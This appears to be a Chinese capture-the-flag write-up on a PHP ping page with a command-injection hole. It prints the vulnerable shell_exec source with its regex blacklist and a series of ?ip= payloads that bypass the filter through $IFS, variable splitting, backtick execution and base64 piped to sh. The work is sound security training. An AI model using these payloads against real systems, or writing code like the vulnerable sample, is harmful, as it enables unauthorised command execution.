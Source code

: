 使用变量代替字符串

```bash
?ip=127.0.0.1;a=f;cat$IFS$1$alag.php        过滤
?ip=127.0.0.1;a=l;cat$IFS$1f$aag.php        没flag
?ip=127.0.0.1;a=a;cat$IFS$1fl$ag.php        过滤
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php        有flag
?ip=127.0.0.1;a=fl;b=ag;cat$IFS$1$a$b.php   过滤
?ip=127.0.0.1;b=ag;a=fl;cat$IFS$1$a$b.php   有flag
```

内联执行

```bash
?ip=127.0.0.1;cat$IFS`ls`
?ip=127.0.0.1;cat$IFS$3`ls`
?ip=127.0.0.1;cat$IFS$9`ls`
?ip=127.0.0.1|cat$IFS$9`ls`
```

```php
/?ip=
<pre>PING 127.0.0.1 (127.0.0.1): 56 data bytes
<?php
$flag = "flag{d893b431-5300-4b46-9b52-3a5a2390cfca}";
?>
/?ip=
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

被过滤的bash，用管道+sh替换

cat flag.php用base64加密来绕过正则匹配

```bash
Y2F0IGZsYWcucGhw

?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

```txt
//?ip= fxck your bash!
```

过滤了flag、bash，但sh没过滤，linux下可用sh

```bash
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

|sh 就是执行前面的echo脚本
